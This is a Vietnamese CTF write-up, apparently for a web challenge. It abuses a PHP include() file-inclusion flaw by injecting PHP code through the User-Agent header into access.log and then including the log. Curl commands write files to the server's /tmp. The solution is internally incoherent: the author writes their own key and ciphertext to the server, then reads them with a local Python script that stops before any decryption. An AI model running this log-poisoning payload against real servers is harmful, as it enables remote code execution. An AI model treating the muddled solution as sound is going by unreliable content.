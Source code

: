 ### 1. Challenge Information

```
Point : Null
Author : Null
Description: I was studying about logarithms and suddenly thought of making this challenge. Don’t know how both are related though
Solve by : Anh Quân
```

### 2. Solution
File được cung cấp: `access.log`. Trong file đó có thể thấy `index.php`, thử đến đó :

Nhận thấy rằng page được truyền trực tiếp đến `include()`, nên mình có thể inject PHP vào access.log sau đó thực thi nó
Dùng header `User-Agent` để inject vào log PHP, mỗi request sẽ thêm vào 1 entry mới. 

Viết khóa AES, tới /tmp/key :
```
curl -s \
  -H "User-Agent: <?php file_put_contents('/tmp/key', str_rot13('diNbkitqV5riXS69fTlyAj==')); ?>" \
  "http://challenge/index.php?page=logs/access.log"
```

Viết 6 đoạn ciphertext đến `/tmp/s0 … /tmp/s5` : 
```
SEGMENTS=(
  dhhfp88dfgL=
  Ys4tW4mWgOf=
  bi3wo2dGq8H=
  b5evSgbsaWx=
  +Sfbx/gllSD=
  dBYtUX9UAlV=
)
for i in "${!SEGMENTS[@]}"; do
  curl -s \
    -H "User-Agent: <?php file_put_contents('/tmp/s$i', '${SEGMENTS[i]}'); ?>" \
    "http://challenge/index.php?page=logs/access.log"
done
```

Thêm log vào 1 lần nữa để thực thi tất cả các injection
`http://challenge/index.php?page=logs/access.log`. 

Bây giờ, ở server ta đã có:

```
/tmp/key : chứa rot13 của key base64 thật
/tmp/s0 … /tmp/s5`: mỗi cái chứa chunk rot13 của base64 của ciphertext
```

Tiếp theo là extract và decode bằng code python sau : 
```python
import base64, codecs
from Crypto.Cipher import AES

# 1. Load and rot13‐decode the key
with open('/tmp/key') as f:
    key_b64 = codecs.decode(f.read().strip(), 'rot_13')
key = base64.b64decode(key_b64)

# 2. Read, rot13‐decode, Base64‐decode, and concatenate ciphertext segments
cipher = b''
for i in range(6):
    seg_rot13 = open(f'/tmp/s{i}').read().strip()
    seg_b64   = codecs.decode(seg_rot13, 'rot_13')
    cipher   += base64.b64decode(seg_b64)

```